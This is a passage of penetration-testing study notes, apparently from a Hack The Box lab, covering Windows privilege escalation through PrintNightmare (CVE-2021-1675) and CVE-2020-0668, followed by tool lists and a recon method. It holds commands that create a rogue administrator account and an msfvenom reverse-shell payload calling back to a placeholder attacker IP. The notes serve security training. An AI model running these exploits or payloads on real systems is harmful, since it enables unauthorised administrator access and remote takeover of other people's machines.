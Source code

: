 #### Method 2: PrintNightmare (CVE-2021-1675)
```cmd
# 1. Verify Spooler service
ls \\localhost\pipe\spoolss

# 2. Execute PowerShell exploit
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "admin123" -NewPassword "Password123!"

# 3. Login with new admin user or use privileges
```

#### Method 3: CVE-2020-0668 (File Move)
```cmd
# 1. Generate malicious service binary
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=4444 -f exe > malicious.exe

# 2. Execute privilege escalation
.\CVE-2020-0668.exe C:\Users\htb-student\Desktop\malicious.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

# 3. Start service for SYSTEM access
net start MozillaMaintenance

# 4. Access Administrator Desktop flag
type C:\Users\Administrator\Desktop\flag.txt
```

## 🛠️ Exploitation Tools & Techniques

### Essential Tools
```cmd
# Kernel exploit frameworks:
- Windows-Exploit-Suggester    # Patch analysis
- Sherlock.ps1                 # PowerShell exploit suggester  
- Watson                       # .NET exploit suggester
- Metasploit local exploits    # Automated exploitation

# Manual analysis:
- systeminfo + online databases
- Microsoft Update Catalog research
- CVE databases and PoC repositories
```

### Exploitation Strategy
```cmd
# 1. System reconnaissance
systeminfo | findstr /B "OS Name" "OS Version" "System Type"

# 2. Patch analysis
wmic qfe list brief

# 3. Exploit selection based on:
- Windows version/architecture
- Available patches
- Service requirements
- Stealth considerations

# 4. Execution methodology:
- Test in isolated environment
- Understand exploit requirements
- Prepare post-exploitation steps
```